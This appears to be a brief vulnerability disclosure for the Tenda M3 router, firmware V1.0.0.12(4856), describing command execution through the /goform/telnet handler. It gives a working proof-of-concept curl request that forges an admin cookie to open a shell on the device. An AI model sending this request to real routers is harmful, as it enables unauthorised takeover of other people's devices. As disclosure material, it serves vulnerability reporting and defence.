


# Tenda M3 Command Execution

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/


## POC

An issue was discovered in Tenda M3 V1.0.0.12(4856) devices. An HTTP request within the handler function of the /goform/telnet  route. This could lead to  Shell Metacharacters.




When we send packets, the router will be shell

```
curl -i -X POST http://192.168.10.1/goform/telnet -d aa=aa --cookie "user=admin"
```




